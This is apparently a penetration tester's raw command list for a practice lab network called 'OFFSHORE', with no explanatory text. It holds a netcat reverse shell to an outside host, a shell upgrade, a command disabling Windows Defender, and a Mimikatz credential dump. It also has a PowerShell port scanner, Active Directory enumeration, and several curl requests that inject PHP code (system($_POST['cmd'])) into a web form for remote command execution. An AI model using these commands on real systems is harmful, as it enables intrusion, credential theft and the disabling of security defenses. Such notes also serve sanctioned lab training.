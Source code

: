 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
python3 -c 'import pty; pty.spawn("/bin/bash")'
Set-MpPreference -DisableRealtimeMonitoring $true
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'

get-childitem -path c:\ -include flag.txt -recurse
Get-ChildItem -Recurse -File | where { Select-String -Path $_ -List -Pattern "OFFSHORE{" }

1..10000 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.3.103",$_)) "Port $_ is open!"} 2>$null

Get-ADGroup -Filter 'SID -ge "S-1-5-21-524867371-2016665888-3240400722-1000"' -Server CLIENT.OFFSHORE.COM

from=test&fromaddr=&to=test&toaddr=&amount=x') === true || system($_POST['cmd']) || is_numeric('x&comments=test&cmd=id

curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.4.120' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 118' \
    -b $'lang=en-US; PHPSESSID=t6mdi2v4kcsg3lojihkl5lrhr4' \
    --data-binary $'from=test&fromaddr=&to=test&toaddr=&amount=x\') === true || system($_POST[\'cmd\']) || is_numeric(\'x&comments=test&cmd=id' \
    $'http://172.16.4.120/client/transactions/addTransaction.php'

curl 'http://127.0.0.1/client/transactions/addTransaction.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: lang=en-US; PHPSESSID=t6mdi2v4kcsg3lojihkl5lrhr4' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Origin: http://127.0.0.1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw $'from=test&fromaddr=&to=test&toaddr=&amount=\'.system(\'id\').\'&comments=test'

curl 'http://172.16.4.120/client/transactions/addTransaction.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: lang=en-US; PHPSESSID=t6mdi2v4kcsg3lojihkl5lrhr4' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Origin: http://172.16.4.120' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw "from=test&fromaddr=&to=test&toaddr=&amount=x') === true || system($_POST['cmd']) || is_numeric('x&comments=test&cmd=id"

curl "http://172.16.4.120/client/transactions/addTransaction.php" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8" -H "Accept-Language: en-GB,en;q=0.5" --compressed -H "DNT: 1" -H "Connection: keep-alive" -H "Cookie: PHPSESSID=iovkdt7qmsijn013nujlutvkv2" -H "Upgrade-Insecure-Requests: 1" -H "Origin: http://172.16.4.120" -H "Pragma: no-cache" -H "Cache-Control: no-cache" --data-raw "from=test&fromaddr=&to=test&toaddr=&amount=x') === true || system(`$_POST['cmd']) || is_numeric('x&comments=test&cmd=id"